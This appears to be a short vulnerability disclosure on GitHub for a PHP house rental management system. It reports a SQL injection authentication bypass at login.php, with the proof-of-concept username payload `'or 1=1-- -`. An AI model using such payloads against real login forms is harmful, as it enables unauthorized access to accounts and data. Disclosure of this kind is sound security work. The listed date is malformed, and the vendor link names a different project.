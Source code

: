# House Rental Management System - Authentication Bypass
+ **Exploit Title:** House Rental Management System - Authentication Bypass
+ **Date:** 2024-15-05
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows Authentication Bypass via the `username` and `password` parameters at "http://localhost/rental/login.php". 

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ username : `'or 1=1-- -` password : `1`  and log in
+ Authentication Bypass Successful !

![Ekran görüntüsü 2024-05-15 234111](https://github.com/BurakSevben/CVEs/assets/117217689/74b0e3dd-9839-44a8-92fb-e17b3b76ec55)

![Ekran görüntüsü 2024-05-15 234302](https://github.com/BurakSevben/CVEs/assets/117217689/d8d8770c-1d08-40cd-9a86-75d436b7d07e)
